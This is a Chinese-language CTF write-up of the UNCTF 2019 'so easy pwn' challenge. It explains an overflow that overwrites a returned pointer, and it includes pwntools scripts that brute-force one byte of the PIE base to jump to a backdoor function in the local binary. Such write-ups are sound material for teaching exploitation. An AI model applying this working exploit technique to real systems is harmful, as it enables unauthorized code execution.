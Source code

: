 ```yaml
---
layout:     post
title:      "unctf 2019 so easy pwn"
#subtitle:   " \"Hello World, Hello my first Blog\""
date:       2019-11-26 21:00:00
author:     "Red"
#header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - pwn
    - ctf
---
```


这个题经过 [@x](ma2in9.top) 的注释之后是这样的：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/main.png)

### 寻找漏洞点
思路是在两个read函数处下断点，这种写的操作最容易有漏洞，看到read了16个字节，所以拿16个A测试，关闭地址随机化之后，调试，用vmmap看加载的基地址，得到read的真实地址，初步代码如下：
```python
from pwn import *

context.log_level='DEBUG'
context.terminal=['tmux','split','-h']
sh = process('./pwn')

gdb.attach(sh,'''
	b* 0x5655595a #read1
	b* 0x56555a06 #read2
''')

sh.send("A" * 16)
sh.interactive()
```
调试之后发现welcome中的s地址为``0xffffd16c``, call函数中的v1的地址为``0xffffd178``,buf地址为``0xffffd17c``,也就是说s和v1地址只差了12，我们输入16个字节后刚好可以覆盖v1的地址，这就是漏洞所在：
![](vul.png)

### 利用
查看call函数中函数恰巧return了v1，而v1又能被我们覆盖，所以利用方法不言而喻，用12个padding加上一个返回地址即可，查看程序中有back_door可以利用，但是程序开启了PIE。再看welcome函数中泄露了基地址的前16位，也就是前4个字节，back_door中
泄露了后三字节，也就是说需要我们爆破中间的一个字节：
```python
from pwn import *
context.log_level='DEBUG'	
context.terminal=['tmux','split','-h']
try:
	for i in range(0x1000, 0x10000, 0x1000):
		print hex(i)
		sh = process('./pwn')
		  
		back_door = 0x000009cd
		offset = 12 

		#gdb.attach(sh,'''
		#	b* 0x5655595a
		#	b* 0x56555a06
		#''')
		sh.recvuntil("the ")
		ads = (int(sh.recvuntil(" ", drop = True)[-6:]) << 16) +i
		print ads
		sh.recvuntil("name?")
		payload = "a"*offset +p32(back_door +ads)
		sh.send(payload)
		sh.recvuntil(":")
		sh.send("anything")
		sh.interactive()
except Exception as e:
	pass
```

这个题中有个好玩的地方就是第二次read，不管输入什么都会报错，调试得知原来read函数根本没read成功,read返回值(rax)为-1:
![](read.png)
